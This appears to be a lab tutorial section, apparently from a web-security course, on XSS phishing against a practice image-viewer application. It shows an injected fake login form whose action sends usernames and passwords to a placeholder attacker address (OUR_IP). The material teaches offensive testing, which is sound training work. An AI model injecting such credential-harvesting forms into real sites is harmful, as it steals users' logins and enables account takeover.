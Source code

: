 # Phishing
Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

# XSS Discovery
We start by attempting to find the XSS vulnerability in the web application at /phishing from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:

![image](https://github.com/RipperGh/BugHunting-D/assets/165308866/ae097a1f-05d6-473f-80b8-99603b911482)

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the dead image url icon:

![image](https://github.com/RipperGh/BugHunting-D/assets/165308866/1c55965e-fce7-4976-b648-63d02be8d31e)

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page.
### Tip: To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.

# Login Form Injection
Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:
```
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
In the above HTML code, OUR_IP is the IP of our VM, which we can find with the (ip a) command under tun0. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:
```
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```